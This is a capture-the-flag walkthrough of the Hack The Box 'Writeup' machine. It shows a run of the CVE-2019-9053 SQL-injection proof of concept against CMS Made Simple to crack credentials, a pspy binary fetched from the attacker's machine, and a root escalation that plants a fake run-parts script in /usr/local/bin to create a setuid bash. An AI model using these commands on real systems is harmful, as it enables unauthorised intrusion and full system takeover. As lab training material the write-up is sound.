







# HTB : Writeup


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Writeup) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | October 30th 2026 |


## Enumeration

Before we do anything lets create three files:

1. credentials.txt where we will store valid username/passwd combinations

2. users.txt where we will store all usernames we come across

3. pass.txt where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.89.131 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)  
| ssh-hostkey:   
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)  
|\_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)  
80/tcp open  http    Apache httpd 2.4.25 ((Debian))  
|\_http-title: Nothing here yet.  
|\_http-server-header: Apache/2.4.25 (Debian)  
| http-robots.txt: 1 disallowed entry   
|\_/writeup/  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```

From the nmap results, we can see that the target machine is running an `ssh` server on port `22`, and a `http server` on port `80` running `Apache/2.4.25`. Let's add the target IP as well as `writeup.htb`  to our /etc/hosts file as so:

```
10.129.89.131   writeup.htb
```

and visit the page using the Burp Suite browser.

### Web Recon

Opening the web page we see it is a placeholder site for someone to post their CTF write ups. Additionally it states that the site has a DoS protection in place that will ban malicious IP's so we will have to be careful not to trip that.



Back in our NMAP scan we see a reference to the `robots.txt` page which tells bots and web crawlers which sites they are allowed to visit. It also can provide us with a list of the sites directories:

```
\#              \_\_  
\#      \_(\\    |@@|  
\#     (\_\_/\\\_\_ \\--/ \_\_  
\#        \\\_\_\_|----|  |   \_\_  
\#            \\ \}\{ /\\ )\_ / \_\\  
\#            /\\\_\_/\\ \\\_\_O (\_\_  
\#           (--/\\--)    \\\_\_/  
\#           \_)(  )(\_  
\#          \`---''---\`  
  
\# Disallow access to the blog until content is finished.  
User-agent: \*   
Disallow: /writeup/
```

From this we can see that there is an additional `/writeup` directory that we should explore.



Visiting the page we can see it contains a series of "incomplete notes" that still need to be converted into write ups. Viewing the source code of the page we can see a reference to `CMS Made Simple (C) 2004-2019`, while this does not give us a version we can assume it is a release from 2019.



## Foothold

Browsing the official [CMSMS](https://dev.cmsmadesimple.org/project/files/6) web page we find that versions `2.2.9 - 2.2.13` were released in 2019.

So given that we do not know the exact version we will have to settle for finding a vulnerability that effects one of these 5 versions.

### Exploitation

Searching on [exploit-db](https://www.exploit-db.com/exploits/46635) we find that version `2.2.10` contains an `SQL Injection` vulnerability as described in [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/cve-2019-9053).

After downloading the PoC from exploitdb we find that running in produces an error saying that we are missing the termcolor requirement. The required version has been depreciated and is not available using the standard pip download. Thus we will have to download the correct version and place it in the same directory as our PoC script.

Thankfully [pypi](https://pypi.org/project/termcolor/#history) has the full release history as well as the files for download. The latest version released prior to 2019 was `termcolor 1.1.0` released in 2011.

After downloading the termcolor 1.1.0 file and placing it in the same directory as our PoC script we can run the execution command:

```
 python2 cms-made-simple-sql.py -u http://writeup.htb/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
```

After a while we see that the exploit was successful and a username and a salted password was found and decrypted.



Using these newly found credentials we can ssh into the target machine as the `jkr` user:



## Escalation

Running the `id` command we see that `jkr` is a member of the `staff` group:

```
jkr@writeup:~$ id  
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

Here is a description of that group from the debian wiki:


**"staff: Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security" - [Debian**](https://wiki.debian.org/SystemGroups?pow_referer=)


This means that as the `jkr` user we can modify the `/usr/local` and as noted above "executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name". Echoing the `$PATH` variable we see that `/usr/local/bin` is indeed present.

```
jkr@writeup:~$ echo $PATH  
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

In order to more fully understand what is running on the machine and which executable we can potentially hijack we will need to use [pspy](https://github.com/DominicBreuker/pspy).

First on our attack machine we will start a python http server in the same directory as the pspy file:

```
python3 -m http.server 80
```

Then on the target machine we can download the executable, give it execution permissions, and then run it:

```
jkr@writeup:~$ wget 10.10.15.249/pspy64  
--2026-10-31 02:09:21--  http://10.10.15.249/pspy64  
Connecting to 10.10.15.249:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 3104768 (3.0M) \[application/octet-stream\]  
Saving to: ‘pspy64’  
  
pspy64                               100%\[===================================================================\>\]   2.96M  3.06MB/s    in 1.0s      
  
2026-10-31 02:09:23 (3.06 MB/s) - ‘pspy64’ saved \[3104768/3104768\]  
  
jkr@writeup:~$ chmod +x pspy64   
jkr@writeup:~$ ./pspy64   
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d  
  
  
     ██▓███    ██████  ██▓███ ▓██   ██▓  
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒  
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░  
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░  
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░  
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒   
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░   
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░    
                   ░           ░ ░       
                               ░ ░       
  
...
```

Initially doing so dies not reveal anything of value but after ssh-ing into the target machine in a new terminal with pspy still running we see something interesting:



What makes this interesting is that `run-parts` is run as root and is not called using its absolute path meaning that we can potentially use our access to the `staff` group to override this executable.

To do so we will need to we will use the following command:

```
echo -e '\#!/bin/bash\\n\\ncp /bin/bash /bin/bytefragment\\nchmod u+s /bin/bytefragment' \> /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts  
  
jkr@writeup:/usr/local/bin$ cat /usr/local/bin/run-parts  
\#!/bin/bash  
  
cp /bin/bash /bin/bytefragment  
chmod u+s /bin/bytefragment
```

This command echo’s the contents of our script into a file in the `/usr/local/bin` directory with the name `run-parts`. The script itself creates a copy of the bash executable and gives it a sticky bin allowing whoever runs it to obtain the privileges of the creator.

After running the command we can see that a new file has been added to the /bin directory with a sticky bit:

```
jkr@writeup:~$ ls -al /bin/bytefragment   
-rwsr-xr-x 1 root root 1099016 Oct 31 02:25 /bin/bytefragment
```

We can then run this new bash executable with the `-p` flag meaning it will run in privileged mode:

```
jkr@writeup:~$ bytefragment -p  
bytefragment-4.4\# whoami  
root
```

We have successfully escalated our privileges to root! The root flag can be found in the /root directory thus solving the challenge:



